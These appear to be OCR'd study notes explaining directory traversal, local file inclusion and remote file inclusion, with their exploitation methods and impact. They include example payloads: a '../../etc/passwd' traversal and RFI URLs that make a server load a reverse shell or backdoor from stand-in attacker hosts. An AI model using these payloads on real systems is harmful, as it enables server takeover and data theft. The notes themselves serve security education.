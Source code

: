 **Directory Traversal**: It only traversal the files, so we can only read it. It can't execute files. This is type of Sensitive Information Disclosure

**LFI** is reading a local file, either in the current working directory or using traversal a file in another directory on the same server as the application itself.

**LFI: -**In Local file inclusion means we can include the files of the web application. Also an attacker can retrieve the data from server and execute the data from the server. This execution is extra functionality compared to directory traversal/path traversal. Path traversal is subset of LFI. Therefore, LFI can exploit the path traversal.

A function vulnerable to LFI may also be vulnerable to RFI. It depends. In this scenario, you are including a local file, such as

1.  Code execution on server Information disclosure (system password, username and other files)
    1.  Code execution on client side such as poisoning attack

**Exploitation methods:**

1.  Injecting directory traversal techniques into user inputs.
    1.  Manipulating parameters used for file paths.

Exploiting misconfigurations in file handling functions.

**Impact:** Accessing sensitive information (configuration files, user data), executing malicious code, taking control of the server.

**Example:** An attacker injects ../../etc/passwd into a search bar, revealing system user information.

**LFI Example**

1.  Improper validation of user input leads to *read access of server resource*.
    1.  Example: <http://www.example.com?file=../../etc/passwd>

**RFI** is including a file from an external source.

**RFI: -** remote file inclusion vulnerability exploits the dynamic file inclusion mechanism in the web application. RFI can also exploit the file inclusion but by allowing the attacker to insert/include the remote file to the web server and execute it.

[htt**p://vulnerablesite.com/read_page.php?file=hxxp://hax.com/reverse-shell.php**](http://vulnerablesite.com/read_page.php?file=hxxp://hax.com/reverse-shell.php)

**File inclusion**

1.  Improper validation of user input leads to *the loading of an external resource into the server and execution therein*.
    1.  Example: <http://www.example.com/vuln_page.php?file=http://www.hacker.com/backdoor>

LFI is reading a local file" vs. "RFI is including remote file to server"

**Includes remote files:** An attacker tricks the application into fetching and executing code from a malicious file hosted on a different server.

**Exploitation methods:**

1.  Injecting URLs of remote malicious files into user inputs.
    1.  Exploiting vulnerabilities in functions that fetch external data.

**Impact:** Downloading and executing malware, stealing data from the server, launching further attacks on other systems.
